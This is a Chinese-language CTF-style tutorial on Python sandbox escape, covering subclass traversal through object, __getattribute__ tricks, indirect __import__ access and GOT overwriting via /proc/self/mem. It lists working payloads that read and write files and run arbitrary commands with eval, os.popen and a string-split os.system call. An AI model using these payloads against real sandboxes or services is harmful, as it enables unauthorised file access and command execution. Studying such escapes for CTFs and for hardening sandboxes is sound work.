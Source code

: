 *如果一些 内敛函数在 __builtins__ 删除 ，我们可以通过 reload(__builtins__) 重新载入获取一个完整的 __builtins__*
## 0x03 创建对象，以及引用
Python 的 object 类中集成了很多的基础函数，我们想要调用的时候也是可以通过创建对象进而引用

有常见的两个方法
```bash
().__class__.__bases__[0]
''.__class__.__mro__[2]
```
![](http://oayoilchh.bkt.clouddn.com/18-5-3/14928461.jpg)
如，我们可通过
`print ().__class__.__bases__[0].__subclasses__()[40]("/etc/services").read()`达到文件读取的效果，

**常见payload**
```py
#读文件
().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()

#写文件
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')

#执行任意命令
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )
```
## 0x04 其他危险的函数

## 0x05 __getattr__() 和 __getattribute__() 
python 再访问属性的方法上定义了 __getattr__()  和 __getattribute__()  2种方法，其区别非常细微，但非常重要。

如果某个类定义了 __getattribute__() 方法，在 每次引用属性或方法名称时 Python 都调用它（特殊方法名称除外，因为那样将会导致讨厌的无限循环）。
如果某个类定义了 __getattr__() 方法，Python 将只在正常的位置查询属性时才会调用它。如果实例 x 定义了属性 color， x.color 将 不会 调用x.__getattr__('color')；而只会返回 x.color 已定义好的值。
这里，我们可以通过 __getattribute__ 这个方法做一些事，如下面的payload
```py
x = [x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'ca'+'tch_warnings'][0].__init__
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s')
```

## 0x06 间接的引用调用
在有些题目中，如这次的2018年国赛的 Python 沙盒题目上，import 其实整个是被阉割了。

但是在Python中，原生的 **__import__** 是存在被引用的，只要我们找到相关对象引用就可以进一步获取我们想要的内容，具体下面的demo会讲述到

## 0x07 write修改got表
实际上是一个 **/proc/self/mem** 的内存操作方法
**/proc/self/mem** 是内存镜像，能够通过它来读写到进程的所有内存，包括可执行代码，如果我们能获取到Python一些函数的偏移，如 **system** ，我们就能通过想做pwn题的劫持got表做我们任意想做的事情
